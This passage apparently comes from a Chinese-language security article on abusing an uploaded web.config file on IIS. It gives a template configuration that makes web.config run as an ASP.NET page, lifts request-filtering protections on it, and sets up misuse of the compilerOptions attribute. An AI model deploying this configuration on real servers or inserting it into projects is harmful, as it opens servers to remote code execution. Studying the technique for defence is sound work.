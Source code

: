 ```plain
Response.write("<!-"&"-")
%>
-->
```

其他模块（例如用于 PHP 的模块）也可以在允许时进行类似地使用。但是，在正确配置 IIS 应用程序时，我们通常无法运行除`.NET`代码之外的任何内容。因此，我将引入更多技术。

#### 2.1 错误使用 compilerOptions 属性

我将使用以下 web.config 文件作为基本模板：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web>
        <httpRuntime targetFramework="4.67.1"/>
        <compilation tempDirectory="" debug="True" strict="False" explicit="False" batch="True"
            batchTimeout="900" maxBatchSize="1000" maxBatchGeneratedFileSize="1000" numRecompilesBeforeAppRestart="15"
            defaultLanguage="c#" targetFramework="4.0" urlLinePragmas="False" assemblyPostProcessorType="">

            <assemblies>

            </assemblies>

            <expressionBuilders>

            </expressionBuilders>

            <compilers>
                <compiler language="c#"
                    extension=".cs;.config"
                    type="Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
                    warningLevel="4" 
                    compilerOptions=''/>
            </compilers>
        </compilation>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="File" requireAccess="Script" preCondition="integratedMode" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```
